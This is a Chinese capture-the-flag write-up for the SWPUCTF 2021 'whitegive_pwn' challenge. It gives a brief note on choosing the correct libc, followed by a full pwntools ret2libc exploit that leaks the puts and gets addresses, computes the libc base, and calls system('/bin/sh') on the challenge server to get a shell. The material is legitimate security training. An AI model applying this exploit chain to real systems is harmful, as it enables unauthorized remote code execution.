

## [SWPUCTF 2021 新生赛]whitegive_pwn
* 考点：ret2libc
* 工具：ida，pwntools

https://www.nssctf.cn/problem/391

这道题的其他步骤和之前的题目一样，只是需要注意通过泄露出来的函数真实地址可以锁定的libc有两个，其中第一个使用是得不到shell的，需要使用第二个



得到libc后再计算基地址，构建真实的system地址使用命令调用触发shell

exp如下：
```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
io=remote('node4.anna.nssctf.cn',28107)
elf=ELF('附件')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
gets_plt=elf.plt['gets']
gets_got=elf.got['gets']
#read_plt=elf.plt['read']
#read_got=elf.got['read']

pop_rdi=0x400763

main_address = 0x40066B

vuln_addr=0x4006BA

payload = b'a'*(0x10+8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln_addr)

#io.sendlineafter("overflow?\n",payload)
io.sendline(payload)
puts_real_address = u64(io.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))

print("puts_address:"+hex(puts_real_address))

payload = b'a'*(0x10+8) + p64(pop_rdi) + p64(gets_got) + p64(puts_plt) + p64(vuln_addr)

#io.sendlineafter("overflow?\n",payload)
io.sendline(payload)
gets_real_address = u64(io.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))

print("gets_address:"+hex(gets_real_address))


libc=ELF('libc6_2.23-0ubuntu11.3_amd64.so')
ret_addr=0x4006f4
real_libc=puts_real_address-libc.sym['puts']
print(hex(real_libc))
sys_address = real_libc+libc.sym['system']

#bin_sh_address = next(real_libc+int(libc.search('bin/sh\x00')))

bin_sh_offset  = next(libc.search(b'/bin/sh\x00')) 
bin_sh_address = real_libc + bin_sh_offset
#payload1 = b'a'*(0x10+8) + p64(ret_addr) +p64(pop_rdi) + p64(bin_sh_address) + p64(sys_address)
payload1 = b'a'*(0x10+8) +p64(pop_rdi) + p64(bin_sh_address) + p64(sys_address)
#io.sendlineafter("overflow?\n",payload1)
io.sendline(payload1)
io.interactive()                               
```

---